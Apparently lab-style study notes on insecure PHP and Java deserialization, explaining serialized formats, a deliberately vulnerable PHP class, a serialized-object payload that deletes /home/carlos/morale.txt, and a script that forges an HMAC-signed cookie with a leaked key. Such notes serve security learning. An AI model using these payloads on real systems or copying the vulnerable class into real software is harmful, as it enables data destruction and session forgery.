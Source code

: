 
## How to identify insecure deserialization

Identifying insecure deserialization is relatively simple regardless of whether you are whitebox or blackbox testing.

During auditing, you should look at all data being passed into the website and try to identify anything that looks like serialized data. Serialized data can be identified relatively easily if you know the format that different languages use. In this section, we'll show examples from both PHP and Java serialization. Once you identify serialized data, you can test whether you are able to control it.

### PHP serialization format

PHP uses a mostly human-readable string format, with letters representing the data type and numbers representing the length of each entry. For example, consider a `User` object with the attributes:

`$user->name = "carlos"; $user->isLoggedIn = true;`

When serialized, this object may look something like this:

`O:4:"User":2:{s:4:"name":s:6:"carlos"; s:10:"isLoggedIn":b:1;}`

This can be interpreted as follows:

-   `O:4:"User"` - An object with the 4-character class name `"User"`
-   `2` - the object has 2 attributes
-   `s:4:"name"` - The key of the first attribute is the 4-character string `"name"`
-   `s:6:"carlos"` - The value of the first attribute is the 6-character string `"carlos"`
-   `s:10:"isLoggedIn"` - The key of the second attribute is the 10-character string `"isLoggedIn"`
-   `b:1` - The value of the second attribute is the boolean value `true`

The native methods for PHP serialization are `serialize()` and `unserialize()`. If you have source code access, you should start by looking for `unserialize()` anywhere in the code and investigating further.

### Java serialization format

Some languages, such as Java, use binary serialization formats. This is more difficult to read, but you can still identify serialized data if you know how to recognize a few tell-tale signs. For example, serialized Java objects always begin with the same bytes, which are encoded as `ac ed` in hexadecimal and `rO0` in Base64.

Any class that implements the interface `java.io.Serializable` can be serialized and deserialized. If you have source code access, take note of any code that uses the `readObject()` method, which is used to read and deserialize data from an `InputStream`.

## Arbitrary Object Injection

Consider the following vulnerable code:

```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

We can abuse the `__destruct()` magic object by serializing a `CustomTemplate` class and setting the `lock_file_path` to the file we want to delete. Like so:

```php
<?php

class CustomTemplate{
	public $lock_file_path = "/home/carlos/morale.txt";
}

print serialize(new CustomTemplate);
?>
```

In case you need to sign a new cookie:

```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
?>
```
